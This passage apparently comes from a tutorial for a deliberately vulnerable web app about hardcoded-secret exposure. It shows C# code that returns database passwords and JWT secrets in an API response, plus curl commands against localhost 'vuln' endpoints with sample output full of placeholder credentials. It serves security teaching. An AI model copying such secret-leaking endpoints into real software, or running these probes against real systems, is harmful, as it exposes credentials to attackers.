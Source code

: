 ```csharp
            }
        },
        internalState = new
        {
            lastDbQuery = $"SELECT * FROM users WHERE password = '{DATABASE_PASSWORD}'",
            currentJwtToken = $"Bearer {JWT_SECRET}"
        }
    });
}
```

## How Secret Exposure Attacks Work

### Discovery Methods

#### 1. Direct API Endpoint Access
```bash
# Access configuration endpoint
curl "http://localhost:5000/api/hardcodedsecrets/config/vuln"
```

**Response reveals all secrets:**
```json
{
  "database": {
    "password": "P@ssw0rd123!",
    "connectionString": "Server=localhost;Database=myapp;User Id=admin;Password=P@ssw0rd123!;"
  },
  "jwt": {
    "secret": "MyVerySecretJWTKey2024!"
  },
  "external": {
    "apiKey": "sk-1234567890abcdef",
    "stripeKey": "sk_test_51234567890abcdef",
    "awsCredentials": {
      "accessKey": "AKIAIOSFODNN7EXAMPLE",
      "secretKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
    }
  }
}
```

#### 2. Environment Variable Enumeration
```bash
# Access environment endpoint
curl "http://localhost:5000/api/hardcodedsecrets/env/vuln"
```

**Exposes system environment:**
```json
{
  "environmentVariables": {
    "DATABASE_PASSWORD": "P@ssw0rd123!",
    "JWT_SECRET": "MyVerySecretJWTKey2024!",
    "STRIPE_SECRET_KEY": "sk_test_51234567890abcdef",
    "PATH": "/usr/local/bin:/usr/bin",
    "HOME": "/home/user"
  },
  "systemInfo": {
    "machineName": "web-server-01",
    "userName": "appuser",
    "workingDirectory": "/app"
  }
}
```